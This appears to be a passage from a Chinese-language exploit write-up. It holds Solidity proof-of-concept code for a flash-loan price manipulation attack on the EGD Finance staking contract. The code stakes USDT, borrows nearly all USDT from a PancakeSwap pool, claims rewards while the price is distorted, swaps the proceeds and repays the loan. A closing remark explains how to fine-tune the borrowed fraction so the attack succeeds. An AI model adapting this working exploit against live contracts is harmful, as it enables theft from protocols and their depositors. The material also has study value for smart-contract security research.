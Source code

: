 ```solidity

        //将获得的egd换成usdt
        console2.log(
            "i will apporve all edg coin to another contract:",
            IERC20(egd).balanceOf(address(this))
        );
        IERC20(egd).approve(
            address(egd2usdt),
            IERC20(egd).balanceOf(address(this))
        );
        
        egd2usdt.swap2usdt();

        console.log(
            "earned usdt:",
            (IERC20(usdt).balanceOf(address(this)) - balanceBefore) / 1 ether
        );
    }

    function stake() public {
        egd_finance.bond(address(0x85cbfaBD709c744C84A36BA47145396d724EE751));
        IERC20(usdt).approve(address(egd_finance), 100 ether);
        egd_finance.stake(100 ether);
    }

    //贷款的回调函数
    function pancakeCall(
        address,
        uint256,
        uint256 count1,
        bytes calldata
    ) public {
        //在价格不合理的时候领取质押奖励
        egd_finance.claimAllReward();

        //归还贷款本金 + 5%手续费
        uint256 fee = (count1 * 500_000_000) / 10_000_000_000;
        bool success = IERC20(usdt).transfer(
            address(EGD_USDT_LPPool),
            (count1 + fee)
        );

        require(success);
    }
}

```

> 注意: 
>
> ```solidity
> //贷款（价格操纵）
>         uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
>             99997600) / 100000000;
> ```
>
> 在到底借款多少(这里的99.9976%)需要微调, 防止最后获取的EDG的数量超过池子中的EDG总量而导致转账失败.
